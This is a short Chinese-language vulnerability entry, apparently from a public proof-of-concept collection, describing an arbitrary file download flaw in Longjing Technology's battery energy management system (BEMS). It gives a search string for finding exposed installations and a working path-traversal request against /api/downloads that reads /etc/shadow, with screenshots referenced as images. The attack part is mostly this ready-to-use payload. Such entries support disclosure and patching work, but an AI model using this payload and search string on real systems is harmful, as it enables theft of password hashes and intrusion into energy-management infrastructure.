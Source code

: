 # 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

# 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

## 漏洞描述

龙璟科技 电池能量BEMS 存在接口可任意文件下载获取服务器任意文件信息

## 漏洞影响

```
龙璟科技 电池能量BEMS
```

## 网络测绘

```
title=电池能量管理系统 BEMS
```

## 漏洞复现

登陆页面

![img](/images/202202101906850.png)

验证POC

```plain
/api/downloads?fileName=../../../../../../../../etc/shadow
```

![img](/images/202202101906628.png)

